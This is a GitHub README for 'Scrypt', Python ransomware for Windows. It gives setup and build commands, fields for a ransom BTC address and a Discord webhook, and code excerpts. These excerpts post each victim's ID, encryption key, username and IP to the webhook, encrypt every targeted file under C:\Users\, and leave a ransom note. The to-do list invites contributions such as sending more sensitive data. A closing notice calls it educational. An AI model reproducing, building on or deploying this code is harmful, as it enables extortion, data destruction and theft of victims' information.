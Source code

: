 <div>
  <h1 align="center">Scrypt</h1>
  <h3 align="center">Ransomware with Discord Integration</h3>
</div>

 <p align="center">
  <img width="660" height="300" src="https://github.com/REVENGE977/ScryptRansomware/blob/master/images/ransomware.jpg?raw=true">
</p>

  Scrypt is a windows Ransomware with discord integration. After trying to find a reason to procrastinate a friend gave me the idea to speedrun making ransomware, so that I did. After around 5 hours I finished up Scrypt and this is the repo containing the full source code to the ransomware, the decrypter along with some notes on how it operates. What sets Scrypt aside from all the other Ransomware clones out there is its utilization of discord webhooks to send user reports.
  
<h3 align="center">Scrypt Attack Vectors</h4>
  Once you are hit by Scrypt you will instantly realize you are a victim. A giant screen warning the user (as shown below) will take up your entire screen, once you hit the continue button the window will become invisble so it can continue to run in the background. While I had wanted to use chacha20 for file encryption I ended up sticking to AES-128 due to my limited time.
 <p align="center">
  <img width="660" height="300" src="https://github.com/REVENGE977/ScryptRansomware/blob/master/images/lockscreen.png?raw=true">
</p>
  
  Another feature of Scrypt is its easy report feature which gives you a detailed report of your victim, I used myself below as an example for how the data looks, this can be used to easily match client ID's.
 <p align="center">
  <img width="460" height="300" src="https://github.com/REVENGE977/ScryptRansomware/blob/master/images/report.PNG?raw=true">
</p>

  Scrypt will also leave behind a nice little readme on the desktop just in case the client forgets any of his information. This will contain information such as your btc address, client, id and detailed steps to recovering there files. 
   <p align="center">
  <img width="460" height="300" src="https://github.com/REVENGE977/ScryptRansomware/blob/master/images/note.PNG?raw=true">
</p>

<h3 align="center">Setup</h4>

  Setup is straight forward, run the following commands as listed here:
```
  pip install pyqt5
  pip install requests
  pip install pyinstaller
  pip install pycrypto
```
  Once you have all the dependencies installed go to your python file and modify this to include your information:
```
btcAdd = ""
email = ""
discordWebhook = ""
```
  After you have fully set this up head over to command prompt and run the following commands:
```
  cd "your folder path to scrypt"
```
  then run
```
  pyinstaller --onefile "Scrypt.py"
```
  Wait for it to finish building and thats about it for setup.  

<h3 align="center">Understanding the Code</h4>
Scrypt starts off with the flashing screen to grab the users attention however in the background the ransomware itself runs, it starts of by sending a message which just gives a detailed report of our user along with the unique id and seeded password.

`````
	def sendMessage(self):
		try:
			self.getUserDetails() #trys to retrieve information about the user
		except:
			pass
		data = {
				"embeds": [
					{
					   "title": "**__Victim Report__:**", #uses said datain the report 
						"description": f"```css\nUSERID: {self.randomId}``` ```css\nKEY: {self.encryptionPass}``` ```css\nUSERNAME: {self.userName}``` ```css\nIP: {self.ip}```",
						"color": 13959168,
						"thumbnail": {
						"url": "https://www.pngkit.com/png/full/168-1680567_69137579-pentagram-with-demon-baphomet-satanic-goat.png"
					},
						"author": {
							"name": "Scrypt",
							"icon_url": "https://i.imgur.com/F3j7z5K.png"
							}
					}
				]
			}
		r = requests.post(discordWebhook, json=data) #makes a post request to our webhook with given data
`````

 Next starts the file encryption, our ransomware goes through every file in the provided folder path, in this case being `C:\\Users\\` and then proceeds to get handles for each filepath which will be passed as an argument for when we want to encrypt our files.  
```
	def run(self):
		self.sendMessage() #---------| Calls our function to send our user report via post request to our webhook.
		for root, directories, files in os.walk(self.filePath): #We are now itterating through our directories
			for filename in files: #now we are getting all of our files
				filepath = os.path.join(root, filename) 
				for base in fileTypes:
					if base in filepath:
						threading.Thread(target=self.encryptFile, args=(filepath,)).start() #multithreading our file encryption 
		
		self.readMe() #Creating our read me document
```
Each file is opened in read binary mode which is then encrypted with our pycrypto library with proper padding, then we flush the file contents and write our new file. 
  
```
	def encryptFile(self, file):
		try:
			with open(file, 'rb') as infile:
				content = self.crypto.encrypt(pad(infile.read(),32))
				with open(file, "wb") as outfile:
					outfile.write(content)
					outfile.close()
		except:
			pass
```
<h3 align="center">To Do List</h4>
  Hello fellow developers, if you are interested in contributing to Scrypt I will happily accept pushes for new features or improvements to the current version, this was made in 5 hours so its got a few things that could for sure use improvement:
  - [ ] Improve File Handeling (Change Extenstion not hard to do os.rename())
  - [ ] Give the decrypter a user interface.
  - [ ] Speed up the encryption proccess
  - [ ] Send more data/sensitive data via webhook.  
  - [ ] Create a builder for Scrypt for easier generation
  - [ ] Change encryption to salsa20 or chacha20  

  
  
<h3 align="center">Legal Notice</h4>
  This is illegal if you use this without the consent of others, I am not accountable for anything you get into, this was just a speedrun to demonstrate how ransomware is made/looks. This is 100% educational. Please do not misuse this tool.

